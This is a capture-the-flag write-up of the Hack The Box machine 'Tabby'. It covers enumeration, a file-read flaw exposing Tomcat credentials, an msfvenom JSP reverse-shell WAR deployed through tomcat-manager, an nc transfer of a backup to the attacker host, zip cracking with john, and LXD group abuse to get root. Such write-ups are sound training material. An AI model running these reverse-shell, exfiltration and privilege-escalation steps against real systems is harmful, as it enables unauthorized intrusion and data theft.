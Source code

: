 ![card](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tabby.png)

## Summary
Tabby is an interesting easy box provided by hackthebox where We are represented with a file read vulnerability which we abuse to gain access into the tomcat manager.
Using a classic exploit method , we are able to grab a low privileged shell.
Cracking a zip file leads us to the user password which is part of the ``lxd`` group , thus we can abuse it to gain a system shell.

## Enumeration

### nmap
As always we start by doing a nmap scan against the host :

```sh
root@kali:/home/pi0x73# nmap -sC -sV -T4 10.10.10.194
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-08 14:50 CET
Nmap scan report for 10.10.10.194
Host is up (0.087s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.44 seconds
```

Some interesting information can be collected through the nmap scan where we see **Tomcat Apache** running on port 8080 , a web page on port 80 and a domain : **megahosting.htb**

First thing, I am going to add the domain to the hosts file and procced through the web page.

### Webpage

Procceding through the webpage, we are represented with a hosting platform service :

![web](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tabby-web.png)

Nothing much interesting till here , but after I while clicking around I saw an interesting piece of code in the page source : 

```html
<li><a href="#pricing">Infrastructure</a></li>
<li><a href="http://megahosting.htb/news.php?file=statement">News</a></li>
<li><a href="#about">About</a></li>
<li><a href="#callus">Support</a></li>
```

### File Read

It seems like all of the buttons redirect to nowhere but news button has an interesting link attached. 
A php page that calls files from system and shows them on the webpage so I though it was possible that we could achieve File Read from the remote host.

![lfi](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lfi.png)

Obviously the File Read injection was successful and I was able to read files from the system through this vulnerability. 

This could be a lot useful at the moment since we also noticed apache tomcat running on port 8080 , so I started looking around for the ``tomcat-users.xml`` file which holds the credentials configured for the administration panel.

To make the searching easier I installed **tomcat9** on my attacker machine to see where it saves the config files.

![tomcat9](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat9.png)

Using those paths I was able to retrieve the config file from the remote system : 

```xml
  <role rolename="tomcat"/>
  <role rolename="role1"/>
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>

   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```

We can easily see the credentials for tomcat running on 8080.

However while trying to connect with the given credentials on [http://10.10.10.194:8080/manager](http://10.10.10.194:8080/manager) I noticed that the I could not access the GUI panel, so I started googling about possible other ways.

After some time I came up with an interesting pip module : **tomcat-manager**, 
which could help me use the panel through CLI .

![tomcatmgr](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcatmgr.png)

I found this module very helpful because not only I was able to connect to the tomcat manager service but I could also upload files through it.

### tomcat shell

So quickly create a payload using msfvenom and drop it to the web service using *tomcatmanager* :

```console
root@kali:~# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.30 LPORT=9001 -f war > shell.war
Payload size: 1090 bytes
Final size of war file: 1090 bytes

root@kali:~# tomcat-manager
tomcat-manager> connect http://10.10.10.194:8080/manager tomcat "$3cureP4s5w0rd123!"
--connected to http://10.10.10.194:8080/manager as tomcat
tomcat-manager> deploy local shell.war /zdf
tomcat-manager>
```
With the payload already uploaded to the web server , what's left to do is to navigate on [http://10.10.10.194:8080/zdf](http://10.10.10.194:8080/zdf) in my case to triger the payload and recieve a reverse shell to my machine : 

![tomcat-shell](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/tomcat-shell.png)

## Leveraging Privileges

Upon enumerating inside the box I saw something interesting under ``/var/www/html/files`` : 

![backups](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/backups.png)

I copied this zip backup to my machine to view it contents :

```console
tomcat@tabby:/var/www/html/files$ nc 10.10.15.30 9002 < *.zip


root@kali:~# nc -lvp 9002 > *.zip
Listening on 0.0.0.0 9002
Connection received on megahosting.htb 35208
```

However I wasnt able to view anything because the zip backup was password protected. 

### Cracking the zipfile

In order to unlock it I used **zip2john** to convert the archive into a crackable hash and then give it to john to crack.

```sh
root@kali:~# zip2john backup.zip
backup.zip/var/www/html/assets/ is not encrypted!
ver 1.0 backup.zip/var/www/html/assets/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/favicon.ico PKZIP Encr: 2b chk, TS_chk, cmplen=338, decmplen=766, crc=282B6DE2
ver 1.0 backup.zip/var/www/html/files/ is not encrypted, or stored with non-handled compression type
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/index.php PKZIP Encr: 2b chk, TS_chk, cmplen=3255, decmplen=14793, crc=285CC4D6
ver 1.0 efh 5455 efh 7875 backup.zip/var/www/html/logo.png PKZIP Encr: 2b chk, TS_chk, cmplen=2906, decmplen=2894, crc=2F9F45F
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/news.php PKZIP Encr: 2b chk, TS_chk, cmplen=114, decmplen=123, crc=5C67F19E
ver 2.0 efh 5455 efh 7875 backup.zip/var/www/html/Readme.txt PKZIP Encr: 2b chk, TS_chk, cmplen=805, decmplen=1574, crc=32DB9CE3
backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:backup.zip
NOTE: It is assumed that all files in each archive have the same password.
If that is not the case, the hash may be uncrackable. To avoid this, use
option -o to pick a file at a time.

root@kali:~# john backupfile.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (backup.zip)
1g 0:00:00:01 DONE (2020-11-08 15:49) 0.6849g/s 7097Kp/s 7097Kc/s 7097KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

There was nothing useful inside the zip backup but I noticed that user **ash** uses the same password as zip :

![sudo](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/sudo.png)

## Privesc to root

Now as seen above , while using ``id`` command, it pulls out interesting information where ``ash`` is a memeber of **lxd** group.

Members from this group can create and start containers to the machine.
To sumarize that I am able to create a container , start it and then mount the machine filesystem to it.

### Abusing LXD Privileges

I downloaded **alpine** image to the machine which is a preconfigured container and initialized it :

![lxd](https://raw.githubusercontent.com/pi0x73/pi0x73.github.io/master/assets/images/tabby-writeup/lxd.png)

This way I can now exeucute ``/bin/bash`` to the container and navigate to the filesystem to read the flag :

```sh
ash@tabby:~$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # wc -c root.txt
wc -c root.txt
33 root.txt
```
